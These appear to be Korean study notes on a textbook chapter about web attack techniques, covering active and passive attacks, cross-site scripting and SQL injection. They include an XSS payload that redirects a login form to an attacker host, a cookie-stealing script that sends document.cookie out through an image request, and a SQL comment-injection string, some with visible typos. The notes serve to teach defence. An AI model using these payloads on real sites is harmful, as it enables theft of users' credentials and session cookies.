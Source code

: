 # 11장. 웹 공격 기술

## 웹 공격 기술
- 현재 벌어지는 공격 대부분이 웹 사이트를 노린 것
- 그 중에서도 특히 웹 애플리케이션을 대상으로 많은 공격이 발생

### HTTP에는 보안 기능이 없다
- HTTP는 구조가 단순한 프로토콜
- HTTP vs SSH
  - SSH는 프로토콜 레벨에서 인증이나 세션 관련 기능이 준비되어 있지만 HTTP에는 없다.
  - SSH 서비스 셋업은 누구나 안전한 레벨까지 쉽게 구축 가능하지만 HTTP에서는 대부분 처음부터 개발하게 된다.
- 웹 애플리케이션에서 인증이나 세션 관리 기능을 개발자가 설계해야 한다.
- 그 결과, 보안 등급이 충분치 못하고 취약성이 있는 상태로 가동되고 있는 웹 애플리케이션이 있다.

### 리퀘스트는 클라이언트에서 변조 가능
- 웹 애플리케이션에 대한 공격은 HTTP 리퀘스트 메시지에 공격 코드를 실어서 실행된다.
- 쿼리나 폼, HTTP 헤더, 쿠키 등을 경유해서 보내져 웹 애플리케이션에 취약성이 있을 경우 정보를 도둑맞거나 권한을 빼앗길 수 있다.

### 웹 애플리케이션에 대한 공격 패턴
- 웹 애플리케이션에 대한 공격 패턴은 두 가지가 있다.
  - 능동적 공격
  - 수동적 공격
#### 서버를 노리는 능동적 공격
  - 공격자가 직접 웹 애플리케이션에 액세스해서 공격 코드를 보내는 타입의 공격
  - 서버 상의 리소스에 대해 직접 실행되기 때문에 공격자가 리소스에 액세스할 필요가 있음.
  - SQL 인젝션, OS 커맨드 인젝션
#### 유저를 노리는 수동적 공격
- 함정을 이용해 유저에게 공격 코드를 실행시키는 공격
- 공격자가 직접 웹 애플리케이션에 액세스해서 공격을 하지 않는다.
- 절차
  - 공격자가 설치한 함정에 유저를 유도함. 함정에는 공격 코드를 심어둔 HTTP 리퀘스트를 발생시키기 위한 장치 준비
  - 사용자가 함정에 걸리면 유저의 브라우저나 메일 클라이언트에서 함정을 열게 됨.
  - 함정에 걸리면 유저의 브라우저가 HTTP 리퀘스트를 웹 애플리케이션에 송신하고 공격 코드를 실행함.
  - 공격 코드를 실행하면 쿠키 등의 기밀 정보를 도둑 맞거나 로그인 중인 유저의 권한이 악용되는 등의 피해 발생
- 크로스 사이트 스크립팅(XSS), 크로스 사이트 리퀘스트 포저리(CSRF)

**유저가 처한 환경을 이용한 인트라넷 등에 대한 공격**
- 수동적 공격을 이용하면 인트라넷 같은 인터넷에서 직접 액세스할 수 없는 네트워크를 공격할 수 있다.
- 많은 인트라넷에서는 인터넷 상의 웹 사이트에 액세스하거나 인터넷에서 전송되어 온 메일을 읽을 수도 있기 때문에 공격자는 함정으로 유도하여 인트라넷을 공격할 수 있게 된다.

## 11.2 출력 값의 이스케이프 미비로 인한 취약성
- 웹 애플리케이션의 보안 대책을 실시하는 장소를 크게 나누면 다음과 같이 된다.
  - 클라이언트에서 체크
  - 웹 애플리케이션(서버 측)에서 체크
    - 입력값 체크
    - 출력값 체크

- 클라이언트 측에서의 체크는 대부분 JavaScript를 사용하는데, 변조되거나 무효화될 가능성이 있기 때문에 근본적인 보안 대책으로는 적합하지 않다.
- 웹 애플리케이션에서 처리한 데이터를 데이터베이스나 파일 시스템, HTML, 메일 등에 출력할 때 출력하는 곳에 따라 값을 이스케이프 처리하는 출력 값의 이스케이프가 보안 대책으로 중요

### 11.2 크로스 사이트 스크립팅
- 크로스 사이트 스크립팅(XSS)은 취약성이 있는 웹사이트를 방문한 사용자의 브라우저에서 부정한 HTML 태그나 JavaScript 등을 동작시키는 공격
- 동적으로 HTML을 생성하는 부분에서 취약성이 발생할 수 있다.
- 수동적 공격

![](https://3.bp.blogspot.com/-h8DgNsx8zhY/WCHPxBD4txI/AAAAAAAAC18/aMZJ85_yJU0vMYl8puDJZCDjJtlVYenFwCLcB/s1600/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA%2B2016-11-08%2B%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE%2B10.14.22.png)

> 예시) 폼에 `<script>` 태그를 사용한 문자열을 입력하여 공격
**XSS는 공격자가 함정을 준비하는 수동적 공격**
- 예) URL의 쿼리에 ID를 지정함으로써 폼 내에 문자열을 보완하는 기능이 있는 웹사이트
  ```
  http://example.jp/login?ID=yama
  ```
  여기에 취약성이 있다고 파악한 공격자는 다음과 같은 함정을 작성한 후 교모한 내용의 메일이나 함정을 설치한 웹 페이지를 준비해서 유저가 URL을 클릭하도록 유도한다.
  ```javascript
  http://example.jp/login?ID="><script>var+f=document=>getElementById("login");+f.action="http://hackkr.jp/pwget";+f.method==>"get";</script><span+s="
  ```
  유저가 폼에 ID와 패스워드를 입력하면 공격자의 사이트로 송신되게 하여 빼앗을 수 있다.

#### 유저의 쿠키를 빼앗는 공격
- 폼에 함정을 설치하는 것 외에도 아래와 같은 스크립트를 추가하여 유저의 쿠키를 XSS로 빼앗을 수 있다.
  ```javascript
  <script src="http://hackr.jp/xss.js></script>
  ```
- 이 스크립트가 가리키는 http://hackr.jp/xss.js에는 아래의 JavaScript가 코딩되어 이다.
  ```javascript
  var content = escape(document.cookie);
  document.write("<img src="http://hackr.jp/?");
  document.write(content);
  document.write(">");
  ```
- XSS 취약성이 있는 웹 애플리케이션에서 JavaScript가 실행되면 해당 웹 애플리케이션의 도메인의 쿠키 정보에 액세스된다. 그리고 이 저보가 웹 사이트에 보내지고 액세스 로그에 기록된다.

### 11.2.2 SQL 인젝션
#### 부정한 SQL을 실행하는 SQL 인젝션
- SQL 인젝션 : 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격
- 커다란 위협을 일으킬 수 있는 취약성

**SQL 인젝션의 공격 사례**
- 웹 사이트에 [우에노 센]을 입력했을 때 이 값은 웹 애플리케이션 내부에서 SQL문에 전달되며 다음과 같이 구성된다.
  ```sql
  SELECT * FROM bookTbl WHERE author='우에노 센' and flag = 1;
  ```
- 조금 전 쿼리를 "우에노 센'--"으로 변경한다.
- 그럼 SQL문은 다음과 같이 구성된다.
  ```sql
  SELECT * FROM bookTbl WHERE author='우에노 센' --' and flag = 1;
  ```
- SQL문에서 "--" 이후는 주석으로 처리된다. 즉, `and flag=1`이라는 조건이 무시된다.

#### SQL 인젝션은 SQL 문장의 구문을 파괴하는 공격
- SQL 인젝션은 공격자에 의해 개발자가 의도하지 않는 형태로 SQL 문장이 변경되어 구조가 파괴되는 공격
